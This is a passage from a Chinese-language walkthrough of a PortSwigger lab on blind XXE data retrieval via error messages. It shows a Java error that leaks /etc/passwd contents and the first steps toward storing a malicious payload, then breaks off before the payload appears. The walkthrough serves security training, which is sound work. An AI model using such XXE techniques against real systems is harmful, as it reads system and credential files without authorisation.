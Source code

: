 ```bash
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

靶场名称：Lab: Exploiting blind XXE to retrieve data via error messages  
靶场地址：[https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages)  
演示过程：  
选择任意商品检查其余量信息

[![](assets/1706060044-96258a12dcee7caf46294ebac85b02d4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123131917-f46471c8-b9ae-1.png)

捕获到的数据包如下所示：  
[![](assets/1706060044-758ae3c262eb31d82233619d365131c8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123131931-fd0ea4b0-b9ae-1.png)  
点击"Go to exploit server"存储以下恶意载荷
